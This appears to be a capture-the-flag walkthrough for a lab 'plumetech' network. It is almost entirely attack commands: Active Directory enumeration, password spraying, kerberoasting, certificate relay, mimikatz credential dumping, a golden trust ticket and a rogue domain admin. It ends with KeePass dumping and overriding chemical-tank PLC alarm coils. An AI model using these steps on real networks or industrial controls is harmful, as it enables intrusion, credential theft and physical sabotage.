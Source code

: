 # Enterprise Environment

## ssh to kali box

```bash
nmap --open 10.0.0.0/24
curl http://10.0.0.12 2>&1 | grep 'plumetech'
echo 'martin\nalice\njack\nAdministrator' > users.txt
kerbrute userenum -d plumetech.local --dc 10.0.0.11 users.txt
kerbrute bruteuser -d plumetech.local --dc 10.0.0.11 ./2023-200_most_used_passwords.txt alice
bloodhound-python-ce -c all -d plumetech.local -u alice -p 'Demo@123' -ns 10.0.0.11
bloodhound-python-ce -c all -d plumetech-ou.local -u alice -p 'Demo@123' -ns 10.0.0.11
impacket-GetUserSPNs -dc-ip 10.0.0.11 'plumetech.local/alice:'Demo@123'' -outputfile ~/kerberoast.hashes
hashcat ~/kerberoast.hashes ~/rockyou.txt -O
certipy-ad find -u alice -p 'Demo@123' -dc-ip 10.0.0.11 -ns 10.0.0.11 -vulnerable
certipy-ad relay -target 10.0.0.11
certipy-ad auth -pfx nina.pfx -dc-ip 10.0.0.11
# deprecated RBCD abuse
# impacket-addcomputer -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host 10.0.0.11 -domain-netbios plumetech.local 'plumetech.local/alice:'Demo@123''
# certipy-ad auth -pfx nina.pfx -dc-ip 10.0.0.11 -ldap-shell
# set_rbcd CLI1$ ATTACKERSYSTEM$
# impacket-getST -spn 'cifs/cli1.plumetech.local' -impersonate 'Administrator' 'plumetech.local/attackersystem$:Summer2018!' -dc-ip 10.0.0.11
nxc smb 10.0.0.11 -u Alice -p 'Demo@123' --users
echo 'felix\nnina\nhelpdesk\ncarrie\ntracy\nhoward\ndominic\nsabrina\ntaylor\nfrank\nbackup' >> users.txt
kerbrute passwordspray --dc 10.0.1.11 -d plumetech.local users.txt servicemaster
```

## RDP to DC1

Copy mimikatz and Rubeus to share per RDP

```bash

mimikatz 'privilege::debug' log 'lsadump::lsa /inject' exit
# note rc4 of PLUMETECH-OT$ (trust key)

Rubeus.exe golden /domain:plumetech.local /sid:S-1-5-21-22011716-1179144206-3304708346 /sids:S-1-5-21-2969384189-1935569149-2846293003-1118 /rc4:a1f494c4c1d3f199412bcb418c79af2b /user:Administrator /outfile:ticket.kirbi
Rubeus.exe asktgs /ticket:C:\malware\trust.kirbi /service:http/otdc1.plumetech-ot.local /dc:otdc1.plumetech-ot.local /ptt /targetdomain
enter-pssession otdc1.plumetech-ot.local
  new-aduser temp
  set-adaccountpassword temp -reset
  set-aduser temp -Enable:$true
  add-adgroupmember -identity 'domain admins' -members temp
  exit
```

Background/Close RDP session with DC1

# OT Environment

## RDP to JUMP
as new domain admin; dump keepass.exe; analyze dump with keepass_password_dumper (found in StealthCup/scripts); open keepass in C:\Users\Bob\Desktop\keepass;
alternatively also do LPE before dumping keepass:

`sc C:\Scripts\backup.ps1 -value 'net localgroup Administrators jack@plumetech.local /add'`

RDP to ENG1 as local administrator found in keepass
- start codemeter license stuff and PLCEngineer
- unzip TCP 15 lib
- open project file
- load lib
- correct PLC address
- connect with admin:aa3975c8
- enable debug
- Open Code register in PLCNext > ESM  > Main Task > Chem_Tank_control
- double-click FALSE next to xAlarmOverrideCoils[5] and set it to TRUE
- open browser and browse to scada.plumetech-ot.local
- login with creds found in \\otdc1.plumetech-ot.local\OT ?  admin:49b0EEl6fr32F4ad7GVU
- crank up the pump and watch the world burn

Alternative solution:
- ssh to admin@10.0.1.45 with Uk2PnvDVLBQmUlAAiCiMLIaVyyHlDX
- execute python script from simon (found in StealthCup/scripts/writecoil.py)
`python3 writecoil.py'
- follow steps above starting from scada web panel 